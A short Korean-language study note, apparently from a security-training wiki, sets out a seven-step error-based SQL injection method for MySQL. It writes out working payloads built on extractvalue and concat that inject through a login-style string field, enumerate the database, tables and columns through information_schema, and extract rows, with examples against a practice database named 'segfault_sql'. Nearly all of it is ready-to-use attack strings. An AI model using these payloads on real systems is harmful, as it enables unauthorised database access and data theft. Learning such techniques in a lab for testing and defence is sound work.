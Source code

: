 # Error Based SQL Injection Process

### **Error Based SQL Injection Process**

1. **SQL Injection Point 찾기**
2. **에러 출력 함수 선택**
3. **공격 format 만들기**
4. **DB 이름 확인**
5. **Table 이름 확인**
6. **Column 이름 확인**
7. **Data 추출**

&#x20;

***

&#x20;

#### **1. SQL Injection Point 찾기**

&#x20;Syntax Error 여부 확인

&#x20;

#### **2. 에러 출력 함수 선택**

extractvalue

&#x20;

#### **3. 공격 format 만들기**

normaltic' and extractvalue('1', concat(0x3a, (select 'normaltic'))) and '1' ='1\
normaltic' and extractvalue('1', concat(0x3a, (            ))) and '1' ='1

&#x20;

#### **4. DB 이름 확인**

<mark style="color:red;">**select database()**</mark>

normaltic' and extractvalue('1', concat(0x3a, (select database()))) and '1' ='1



#### **5. Table 이름 확인**

select table\_name from information\_schema.tables where table\_schema='<mark style="color:blue;">**segfault\_sql**</mark>'

&#x20;

행이 여러개인 경우 limit를 사용한다.

&#x20;

첫번째 테이블 : select table\_name from information\_schema.tables where table\_schema='<mark style="color:blue;">**segfault\_sql**</mark>' limit 0,1

두번째 테이블 :&#x20;

select table\_name from information\_schema.tables where table\_schema='<mark style="color:blue;">**segfault\_sql**</mark>' limit 1,1

...



#### **6. Column 이름 확인**

select column\_name from information\_schema.columns where table\_name = '<mark style="color:blue;">**game**</mark>' limit 0,1

...



#### **7. Data 추출**

game 테이블에 있는 name 칼럼 출력 예시 :

normaltic' and extractvalue('1', concat(0x3a, (select <mark style="color:blue;">**name**</mark> from <mark style="color:blue;">**game**</mark> limit 0,1))) and '1' ='1

&#x20;
